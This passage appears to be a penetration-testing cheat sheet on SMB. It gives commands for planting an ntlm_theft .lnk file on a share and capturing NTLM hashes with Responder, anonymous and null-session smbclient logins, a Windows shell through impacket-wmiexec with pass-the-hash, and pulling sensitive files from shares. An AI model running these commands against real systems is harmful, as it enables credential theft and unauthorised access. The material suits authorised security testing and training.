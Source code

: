 After generating files with `ntlm_theft` , put the `.lnk` file (`samples.lnk` here) to the shared folder.
```bash
smbclient -N //10.0.0.1/example

smb> put samples.lnk
```

Now start Responder to retrieve the stolen NTLM hashes. Run the following command in our local machine:
```bash
sudo responder -I eth0
```

## Connect
You can use smbclient to connect the target.

```sh
# anonymous login
smbclient //10.0.0.1/somedir -N

# If the folder name contains spaces, surround with double quotes
smbclient "//10.0.0.1/some dir" -N

# Specify user
smbclient //10.0.0.1/somedir -U username

# nobody, no-pass
smbclient //10.0.0.1/somedir -N -U nobody

# Specify workgroup
smbclient -L 10.0.0.1 -W WORKGROUP -U username
```

To get a Windows shell, run the following examples.
```sh
impacket-wmiexec example.local/username@10.0.0.1
# Pass the Hash
impacket-wmiexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d example.local/username@10.0.0.1
```
## Commands in SMB
After connecting, we can investigate the shared folder to find sensitive files or information.

### List Folders/Files
```sh
smb> ls
```

### Download Folders/Files
```sh
smb> get sample.txt
# If the filename contains spaces, it need to be enclosed in double-quotes.
smb> get "Example File.txt"
```
